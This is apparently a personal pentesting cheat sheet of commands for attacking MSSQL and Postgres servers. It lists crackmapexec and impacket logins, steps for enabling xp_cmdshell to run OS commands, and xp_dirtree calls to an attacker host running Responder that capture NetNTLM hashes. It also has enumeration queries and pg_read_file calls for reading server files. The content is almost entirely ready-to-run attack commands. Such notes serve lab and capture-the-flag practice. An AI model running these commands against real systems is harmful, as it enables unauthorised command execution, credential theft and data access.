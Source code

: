 **MSSQL:**
---
```sh
sqsh -S $TARGET_IP:$PORT -U $DOMAIN\\$USER -P $PASS
```

```shell
crackmapexec mssql $TARGET_IP -u $USER -p $PASSWORD
```

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -L
```

Try to execute command on server:
```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -x 'ping $ATTACKER'
```
and on attacker box:
```shell
sudo tcpdump -i tun0 icmp -n
```

Try to start mssql_priv:

```shell
crackmapexec mssql --local-auth $TARGET_IP -u $USER -p $PASSWORD -M mssql_priv
```

One client is mssqlclient.py:

```shell
mssqlclient.py $USER:$PASSWORD@$DOMAIN
```

Or use impacket to open console:

```shell
impacket-mssqlclient $TARGET_DOMAIN/$TARGET_USER:$TARGET_PASSWORD@$TARGET_NAME
```

```bash
impacket-mssqlclient $USER:$PASS@$TARGET_IP -windows-auth
```

Try:

```mssql
enable_xp_cmdshell
```

or:
```mssql
EXECUTE sp_configure 'show advanced options', 1;
RECONFIGURE;
EXECUTE sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
EXECUTE xp_cmdshell 'whoami';
```

in MSSQL server try, start responder on attacker box:
```sql
xp_dirtree "\\$ATTACKER_IP\fake\share";
```

List files:
---

```sql
xp_dirtree "c:\inetpub\";
xp_dirtree "c:\inetpub\",2,2;
```

**List databases:**
---
```sql
SELECT name, database_id, create_date FROM sys.databases;
```

Show current DB name:
```sql
SELECT db_name();
```

```sql
SELECT STRING_AGG(name, ', ') FROM master..sysdatabases;
```

**List tables in selected DB:**
---
#mssql 

```sql
SELECT * FROM SYSOBJECTS WHERE xtype = 'U';
```

```sql
SELECT name FROM $DB_NAME..sysobjects WHERE xtype = 'U' order by name offset 1 rows fetch next 1 rows only)
```
List columns:
---
```sql
SELECT name FROM syscolumns WHERE id = (SELECT id FROM sysobjects WHERE name = '$COLUMN') order by name offset 1 rows fetch next 1 rows only
```

and offset for each entry
List column:
---
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN;
```
```sql
SELECT top 1 $COLUMN from $TABLE ORDER BY $COLUMN offset 1 rows fetch next 1 rows only;
```
Leak NetNTLM hashes
---
#hash #ntlm #netntlm #responder
Start responder or another hash grabber to get user and hash:

```bash
sudo responder.py -I tun0
```

and trick the MSSQL server to connect to the "share":

```sql
exec master.dbo.xp_dirtree '//$LOCAL_IP/non/existing'
```

POSTGRES
---

```bash
psql -h $TARGET_IP -U $USER -d postgres
```

```postgresql
-- list databases
\l
-- connect to database
\c $DATABASE
-- display tables
\dt
```

```sql
select pg_ls_dir('/var/www');
select pg_read_file('/var/www/flag.txt' , 0 , 1000000);
```